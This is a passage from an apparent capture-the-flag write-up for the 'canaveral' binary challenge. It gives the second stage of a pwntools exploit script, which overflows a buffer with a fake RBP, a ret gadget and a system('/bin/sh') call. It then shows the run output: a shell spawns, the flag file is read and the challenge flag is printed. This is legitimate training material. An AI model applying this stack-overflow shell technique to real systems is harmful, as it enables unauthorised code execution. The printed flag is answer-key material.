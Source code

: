 ```python
print("[*] Stage 2: Exploiting with RBP manipulation...")

# Calculate fake RBP
fake_rbp = buf_addr + 0x70
print(f"[*] Calculated fake RBP: {hex(fake_rbp)}")

# Build Stage 2 payload
payload2 = b"A" * 0x40               # Fill buffer (64 bytes)
payload2 += p64(fake_rbp)            # Fake RBP (8 bytes)
payload2 += p64(ret_gadget)          # Stack alignment (8 bytes)
payload2 += p64(system_mid)          # Jump to 0x401218 (8 bytes)
payload2 += p64(binsh_addr)          # "/bin/sh" address (8 bytes)

print(f"[*] Payload size: {len(payload2)} bytes")

# Send Stage 2
p.sendlineafter(b"sequence: ", payload2)

print("[+] Exploit sent! Shell should spawn...")
p.interactive()

# Flag: sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}
```

### Running the Exploit

```bash
$ python exploit.py
[*] '/path/to/canaveral'
    Arch:     amd64-64-little
[+] Opening connection to chal.sunshinectf.games on port 25603
[*] Stage 1: Leaking stack address...
[+] Leaked buffer address: 0x7ffd8a3c2e90
[*] Stage 2: Exploiting with RBP manipulation...
[*] Calculated fake RBP: 0x7ffd8a3c2f00
[*] Payload size: 96 bytes
[+] Exploit sent! Shell should spawn...
[*] Switching to interactive mode
$ whoami
ctf
$ cat flag.txt
sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}
$
```

---

## Key Takeaways

### Core Concepts
